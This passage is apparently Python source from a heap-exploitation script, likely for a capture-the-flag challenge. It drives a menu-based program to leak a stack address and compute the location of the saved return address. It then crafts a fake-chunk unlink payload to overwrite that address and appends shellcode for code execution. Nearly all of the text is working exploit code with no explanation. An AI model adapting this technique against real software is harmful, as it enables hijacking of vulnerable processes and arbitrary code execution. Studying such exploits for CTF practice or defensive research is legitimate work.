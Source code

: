 ```python
    data = recvuntil(rec, p)
    sendline(msg, p)
    if p:
        print(msg)
    return data

def allocate(size):
    sr(msg='A')
    sr(': ', size)

def free(num):
    sr(msg='F')
    sr(': ', num)

def write(num, data):
    sr(msg='W')
    leak = sr(': ', num)
    addr = 0
    for line in leak.split('\n'):
        if line[0] == num:
            addr = int(line.split()[1], 16)
    sr(': ', data)
    if addr:
        return addr

def leak():
    sr(msg='N')
    recvuntil(': ')
    addr = recvuntil('\n')
    return int(addr, 16)

def leave():
    sr(msg='E')


stack_ptr = leak()
log.info('leaked stack ptr: {}'.format(hex(stack_ptr)))
saved_rip = stack_ptr + 316
log.info('saved rip at:     {}'.format(hex(saved_rip)))
allocate('16')  # buffer 1
allocate('128') # buffer 2
allocate('16')  # buffer 3
free('2')
free('1')
allocate('128') # buffer 4
fwptr_addr = write('4', 'AAAAAAAA')
log.info('forward ptr addr: {}'.format(hex(fwptr_addr)))
mal_size = saved_rip - fwptr_addr
log.info('its content:      {}'.format(hex(mal_size)))
log.info('sanity check:     {}'.format(hex(fwptr_addr + mal_size)))

unlink_payload  = p64(mal_size)   # fill buffer 1
unlink_payload += p64(0)          # (no bk ptr)
unlink_payload += p64(16 + 1 + 2) # fake buffer size
unlink_payload += 'BBBBBBBB' * 2  # fill fake buffer
unlink_payload += p64(16 + 2)     # fake freed buffer size
unlink_payload += p64(fwptr_addr) # fwd pointer
unlink_payload += p64(0)          # no bk ptr
write('4', unlink_payload)
free('2')

payload  = 'AAAAAAAA' * 2 # fill buffer 1
payload += shellcode
```